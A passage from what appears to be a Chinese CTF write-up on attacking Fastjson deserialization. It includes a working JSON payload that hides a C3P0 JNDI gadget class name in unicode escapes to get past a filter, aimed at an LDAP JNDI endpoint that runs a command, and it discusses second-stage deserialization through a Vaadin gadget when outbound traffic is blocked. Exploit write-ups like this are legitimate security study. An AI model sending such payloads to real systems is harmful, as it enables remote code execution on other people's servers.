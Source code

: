 [![](assets/1710900819-9619929d69768265648ac7af0aa3f69e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162711-5581e202-d6dc-1.png)

当然除了直接打 1.2.24 的 JNDI 也可以打 C3P0 的 JNDI, 只是需要用 unicode 或者 16 进制去绕过即可

```plain
{"@type":"com.mchange.v2.c3p0.\u004a\u006e\u0064\u0069\u0052\u0065\u0066\u0043\u006f\u006e\u006e\u0065\u0063\u0074\u0069\u006f\u006e\u0050\u006f\u006f\u006c\u0044\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065","\u004a\u006e\u0064\u0069\u004e\u0061\u006d\u0065":"ldap://127.0.0.1:1389/Basic/Command/calc", "LoginTimeout":0}
```

[![](assets/1710900819-6bf1006a1603bdf2a2154f700caba53a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162722-5c17fcd2-d6dc-1.png)

### 不出网打二次反序列化

C3P0 打二次反序列化，可以看到该题存在 Vaadin 的依赖，所以可以通过 C3P0 打 Vaadin 的反序列化，但是由于他把 `TemplatesImpl`​的 16 进制也给 ban 了，这样子我们就没办法用 C3P0 打二次反序列化来使用 `TemplatesImpl`​加载字节码了
